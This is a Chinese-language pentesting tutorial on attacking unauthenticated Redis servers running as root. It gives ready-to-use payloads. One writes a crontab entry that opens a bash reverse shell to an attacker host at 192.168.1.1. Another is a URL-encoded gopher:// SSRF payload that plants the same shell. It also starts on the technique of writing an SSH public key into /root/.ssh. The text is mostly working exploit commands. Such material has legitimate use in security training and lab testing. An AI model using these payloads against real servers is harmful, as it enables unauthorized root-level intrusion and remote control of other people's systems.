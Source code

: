 ```
bash f8x-dev -redis
```

测试
```bash
redis-cli -h <目标IP>
> info   # 查看 redis 版本信息、一些具体信息、服务器版本信息等等:
> CONFIG GET dir # 获取默认的 redis 目录
> CONFIG GET dbfilename # 获取默认的 rdb 文件名
```

### 利用计划任务执行命令反弹 shell

在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell 先在自己的服务器上监听一个端口 `nc -lvnp 4444` 然后执行命令:
```bash
config set dir /var/spool/cron
config set dbfilename root
# payload
set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.1.1/4444 0>&1\n\n"
save
```

这个方法只能 Centos 上使用，Ubuntu 上行不通，原因如下：

因为默认 redis 写文件后是 644 的权限，但 ubuntu 要求执行定时任务文件 `/var/spool/cron/crontabs/<username>` 权限必须是 600 也就是 -rw------- 才会执行，否则会报错 (root) INSECURE MODE (mode 0600 expected)，而 Centos 的定时任务文件 `/var/spool/cron/<username >` 权限 644 也能执行

因为 redis 保存 RDB 会存在乱码，在 Ubuntu 上会报错，而在 Centos 上不会报错

由于系统的不同，crontrab 定时文件位置也会不同：
- Centos 的定时任务文件在 `/var/spool/cron/<username>`
- Ubuntu 定时任务文件在 `/var/spool/cron/crontabs/<username>`

gopher payload
```
curl -v "gopher://127.0.0.1:6379/_*1%0d%0a\$8%0d%0aflushall%0d%0a*3%0d%0a\$3%0d%0aset%0d%0a\$1%0d%0a1%0d%0a\$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >&/dev/tcp/192.168.1.1/8888>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$3%0d%0adir%0d%0a\$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$10%0d%0adbfilename%0d%0a\$4%0d%0aroot%0d%0a*1%0d%0a\$4%0d%0asave%0d%0aquit%0d%0a"
```

### 写 ssh-keygen 公钥然后使用私钥登录

原理就是在数据库中插入一条数据，将本机的公钥作为 value，key 值随意，然后通过修改数据库的默认路径为 `/root/.ssh` 和默认的缓冲文件 `authorized.keys` ，把缓冲的数据保存在文件里，这样就可以在服务器端的 `/root/.ssh` 下生成一个授权的 key。

在以下条件下,可以利用此方法
1. Redis 服务使用 ROOT 账号启动
2. 服务器开放了 SSH 服务,而且允许使用密钥登录,即可远程写入一个公钥,直接登录远程服务器.

首先在攻击机本地生成一对密钥
```bash
ssh-keygen -t rsa
```

